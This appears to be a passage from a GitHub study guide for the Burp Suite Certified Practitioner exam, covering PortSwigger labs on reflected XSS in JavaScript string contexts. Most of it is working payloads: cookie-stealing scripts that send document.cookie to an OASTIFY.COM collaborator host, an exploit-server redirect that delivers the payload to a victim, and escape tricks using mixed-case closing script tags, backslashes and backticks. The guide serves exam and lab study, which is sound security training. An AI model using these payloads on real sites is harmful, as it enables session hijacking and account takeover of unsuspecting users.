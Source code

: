 [PortSwigger Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)

> In BSCP exam host the below payload on exploit server inside `<script>` tags, and the search query below before it is URL encoded.

```
</ScRiPt ><img src=a onerror=document.location="https://OASTIFY.COM/?biscuit="+document.cookie>
```

> Exploit Server hosting search term reflected vulnerability that is send to victim to obtain their session cookie.

```html
<script>
location = "https://TARGET.net/?search=%3C%2FScRiPt+%3E%3Cimg+src%3Da+onerror%3Ddocument.location%3D%22https%3A%2F%2FOASTIFY.COM%2F%3Fbiscuit%3D%22%2Bdocument.cookie%3E"
</script>
```

> The application gave error message `Tag is not allowed`, and this is bypassed using this `</ScRiPt >`.

### Reflected String Extra Escape

> See in `source code` the variable named `searchTerms`, and when submitting payload `fuzzer'payload`, see the single quote is backslash escaped, and then send a `fuzzer\payload` payload and _**identify**_ that the backslash is not escaped.

```
\'-alert(1)//  

fuzzer\';console.log(12345);//  

fuzzer\';alert(`Testing The backtick a typographical mark used mainly in computing`);//
```

> Using a single **backslash**, single quote and **semicolon** we escape out of the JavaScript string variable, then using back ticks to enclose the `document.location` path, allow for the cookie stealer to bypass application protection.

```
\';document.location=`https://OASTIFY.COM/?BackTicks=`+document.cookie;//
```

> With help from Trevor I made this into cookie stealer payload, using back ticks. Thanks Trevor, here is his Youtube walk through [XSS JavaScript String Angle Brackets Double Quotes Encoded Single](https://youtu.be/Aqfl2Rj0qlU?t=598)

[![fail-escape](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/fail-escape.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/fail-escape.png)
[PortSwigger Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)

